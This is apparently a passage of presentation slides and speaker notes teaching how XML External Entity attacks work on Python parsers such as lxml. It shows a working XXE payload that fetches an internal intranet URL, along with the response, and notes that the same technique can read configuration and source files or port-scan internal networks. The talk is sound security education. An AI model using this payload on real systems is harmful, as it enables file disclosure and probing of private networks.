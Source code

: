 ANY file the parser can read is fair game.

I'll bet the parser can read the apps configuration files.

Of course it can read its own source code.

---

### External entities 

POST /lxml

```xml 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY a_file_on_the_local_intranet
SYSTEM "http://192.168.76.82/hello">]>
<foo> 
&a_file_on_the_local_intranet; 
</foo> 
``` 

RESPONSE 

``` 
Hi! 

I'm a file on Tom's laptop's webserver.

Isn't that nice?
``` 

Note: 

Good news: The Python LXML library actually tried to stop this. It defaulted to not allowing me to expand network entities.

Hey look! A clever attacker (and they are all clever) can use the XML
parser to port-scan the internal network.

You could even connect to port 25/110/etc

---

### Surely this doesn't happen in real life?  

---

### All. The. Time.  

Note: 

Yeah sorry, I'm not going to do a slideshow for you.

I'm too scared I'll find out that this happens more often than it NOT happens.

It's an education problem: sometimes the same people who do this are leaving their parsers running as root.

---